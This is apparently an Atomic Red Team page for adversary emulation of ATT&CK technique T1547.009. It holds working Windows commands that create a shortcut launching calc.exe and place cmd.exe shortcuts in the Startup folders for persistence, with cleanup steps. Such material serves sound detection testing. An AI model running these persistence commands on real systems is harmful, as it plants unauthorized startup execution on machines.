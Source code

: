 # T1547.009 - Shortcut Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/009)
<blockquote>Adversaries may create or edit shortcuts to run a program during system boot or user login. Shortcuts or symbolic links are ways of referencing other files or programs that will be opened or executed when the shortcut is clicked or executed by a system startup process.

Adversaries could use shortcuts to execute their tools for persistence. They may create a new shortcut as a means of indirection that may use [Masquerading](https://attack.mitre.org/techniques/T1036) to look like a legitimate program. Adversaries could also edit the target path or entirely replace an existing shortcut so their tools will be executed instead of the intended legitimate program.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Shortcut Modification](#atomic-test-1---shortcut-modification)

- [Atomic Test #2 - Create shortcut to cmd in startup folders](#atomic-test-2---create-shortcut-to-cmd-in-startup-folders)


<br/>

## Atomic Test #1 - Shortcut Modification
This test to simulate shortcut modification and then execute. example shortcut (*.lnk , .url) strings check with powershell;
gci -path "C:\Users" -recurse -include *.url -ea SilentlyContinue | Select-String -Pattern "exe" | FL.
Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** ce4fc678-364f-4282-af16-2fb4c78005ce





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| shortcut_file_path | shortcut modified and execute | path | %temp%&#92;T1547.009_modified_shortcut.url|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo [InternetShortcut] > #{shortcut_file_path}
echo URL=C:\windows\system32\calc.exe >> #{shortcut_file_path}
#{shortcut_file_path}
```

#### Cleanup Commands:
```cmd
del -f #{shortcut_file_path} >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Create shortcut to cmd in startup folders
LNK file to launch CMD placed in startup folder. Upon execution, open File Explorer and browse to "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"
to view the new shortcut.

**Supported Platforms:** Windows


**auto_generated_guid:** cfdc954d-4bb0-4027-875b-a1893ce406f2






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1547.009.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1547.009.";
$ShortCut.Save()

$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1547.009.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1547.009.";
$ShortCut.Save()
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1547.009.lnk" -ErrorAction Ignore
Remove-Item "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1547.009.lnk" -ErrorAction Ignore
```





<br/>
